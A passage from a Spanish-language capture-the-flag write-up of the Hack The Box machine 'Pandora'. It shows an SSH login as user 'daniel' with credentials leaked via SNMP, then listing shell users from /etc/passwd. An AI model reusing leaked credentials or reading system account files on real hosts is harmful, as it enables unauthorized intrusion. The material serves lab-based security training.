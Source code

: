 Si probamos las credenciales por **SSH** que encontramos por **SNMP** que estaban expuestas vemos que funcionan  

```bash
❯ ssh daniel@10.10.11.136
The authenticity of host '10.10.11.136 (10.10.11.136)' can't be established.
ECDSA key fingerprint is SHA256:9urFJN3aRYRRc9S5Zc+py/w4W6hmZ+WLg6CyrY+5MDI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.136' (ECDSA) to the list of known hosts.
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 21 Jun 01:51:57 UTC 2023

  System load:           0.0
  Usage of /:            63.2% of 4.87GB
  Memory usage:          9%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.136
  IPv6 address for eth0: dead:beef::250:56ff:feb9:1f8c

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

daniel@pandora:~$ 
```

Hay otro usuario llamado **matt**  

```bash
daniel@pandora:~$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
daniel@pandora:~$ 
```
